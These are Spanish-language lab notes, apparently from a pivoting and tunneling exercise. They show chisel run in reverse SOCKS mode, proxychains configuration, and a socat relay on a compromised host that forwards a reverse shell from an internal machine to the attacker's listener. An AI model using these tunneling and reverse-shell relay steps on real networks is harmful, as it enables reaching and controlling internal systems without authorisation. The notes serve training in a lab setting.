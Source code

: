 [[Lab Pivoting and Tunneling - Synfonos]]
En la máquina 2, lo que debemos hacer es enviar el tráfico de esta máquina a la de atacante, y para ello usaremos chisel:
![[Pasted image 20240615204122.png]]

![[Pasted image 20240615204125.png]]

Ahora tenemos que ponernos en la máquina atacante con chisel a modo de servidor:
```bash
./chisel server --reverse -p 1234
```

![[Pasted image 20240615204130.png]]

Y ahora en la máquina 1 ejecutamos el chisel en modo cliente diciendo que pase por el puerto 1234 todo el tráfico remoto:
![[Pasted image 20240615204230.png]]

```bash
./chisel client 10.10.10.12:1234 R:socks
```

![[Pasted image 20240615204236.png]]

Y habremos recibido esta conexión también en la máquina atacante:
![[Pasted image 20240615204240.png]]

En la máquina 2, vamos a crear un servidor con python por el puerto 80, que trataremos de visualizar desde la máquina atacante:
![[Pasted image 20240615204245.png]]

![[Pasted image 20240615204248.png]]

Ahora que tenemos el tunel creado que nos une desde la máquina atacante a la máquina 2, debemos de configurar el proxychain de esta forma:
![[Pasted image 20240615204253.png]]

Al ser la primera máquina que conectamos, tenemos que dejar la primera línea sin comentar y la segunda comentada:
![[Pasted image 20240615204257.png]]

Y al final del todo tenemos que dejar esta línea:
![[Pasted image 20240615204317.png]]

Y en el navegador ponemos el tunel:
![[Pasted image 20240615204320.png]]

De tal forma que desde el navegador llegamos correctamente al puerto 80 de la máquina 2:
![[Pasted image 20240615204326.png]]

Ahora, si queremos llegar a esta máquina desde el terminal, debemos de especificar que queremos que el tráfico pase por el proxychains de la siguiente forma:
![[Pasted image 20240615204344.png]]

No obstante, si queremos llegar a esta máquina entablando una reverse shell, veremos que da error:
![[Pasted image 20240615204353.png]]

Esto error ocurre porque tenemos que habilitar socat en la máquina 1 para que pueda haber comunicación entre la máquina 2 y la atacante, por tanto, para seguir avanzando, tenemos que ejecutar el socat dentro de la máquina 1, de tal forma que diremos que el resto del port forwarding que nos llegue lo envíe a la máquina atacante, por tanto lo descargamos:
![[Pasted image 20240615204410.png]]

![[Pasted image 20240615204415.png]]

Nos compartimos el socat con la máquina 1:
![[Pasted image 20240615204419.png]]

![[Pasted image 20240615204422.png]]

Y ahora ejecutamos socat de esta forma, donde diremos que todo lo que reciba la máquina1 por el puerto 1111 de la interfaz 20.20.20.13 lo envíe a la máquina kali  por el puerto 111, que es donde tendremos netcat esperando conexiones:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111
```

![[Pasted image 20240615204429.png]]

![[Pasted image 20240615204434.png]]

Y ahora si con la máquina 2 enviamos la reverse shell, debería de funcionar:

![[Pasted image 20240615204436.png]]


